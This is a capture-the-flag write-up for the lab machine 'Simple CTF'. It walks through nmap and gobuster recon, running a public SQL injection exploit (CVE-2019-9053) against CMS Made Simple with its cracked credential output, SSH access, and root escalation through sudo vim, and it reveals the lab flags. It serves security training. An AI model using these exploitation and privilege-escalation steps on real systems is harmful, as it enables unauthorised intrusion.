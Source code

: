 # Simple CTF Writeup

How many services are running under port 1000?
```
nmap -sC -sV -A <target ip>
```
> 2

What is running on the higher port?
> ssh

What's the CVE you're using against the application?
```
gobuster dir -u http://<target-ip> -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 250
```
We see a `/simple` which leads us to a CMS Made Simple vulnerability. Search this up online and we see [this](https://www.exploit-db.com/exploits/46635).
> CVE-2019-9053

To what kind of vulnerability is the application vulnerable?
> SQLi

What's the password?

Use the exploit from Exploit-DB with a few minor changes. I had to delete the `termcolor` module and fix a few print statements.
```
python2 exploit.py -u http://<target-ip>/simple/ --crack -w /usr/share/wordlists/rockyou.txt
```
```
Output:
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```
> secret

Where can you login with the details obtained?
> ssh

What's the user flag?
```
ssh mitch@<target_ip> -p2222
cat user.txt
```
> G00d j0b, keep up!

Is there any other user in the home directory? What's its name?
```
cd /home
```
> sunbath

What can you leverage to spawn a privileged shell?
```
sudo -l
```
```
Output:
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```
> vim

What's the root flag?
```
sudo vim
:!sh
cd /root
cat root.txt
```
> W3ll d0n3. You made it!

